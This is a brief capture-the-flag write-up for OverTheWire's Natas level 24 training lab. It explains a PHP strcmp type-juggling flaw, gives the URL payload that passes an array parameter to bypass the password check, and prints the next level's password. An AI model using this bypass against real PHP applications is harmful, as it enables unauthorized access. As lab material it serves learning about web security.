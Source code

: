 # URL: http://natas24.natas.labs.overthewire.org/

# Solution:

Following code is execute to decide if flag can be obtained:
`if(!strcmp($_REQUEST["passwd"],"<censored>")){`

`strcmp` returns 0 (false) when two strings are equal so we need to pass correct string but due to PHP Type System and how `strcmp` works you can pass an empty array and `strcmp` will return 0.
Check `Loose comparision` table here:  
http://php.net/manual/en/types.comparisons.php  
Just use that URL:  
http://natas24.natas.labs.overthewire.org/?passwd[]=%27%27

`Natas 25 password: GHF6X7YwACaYYssHVY05cFq83hRktl4c`

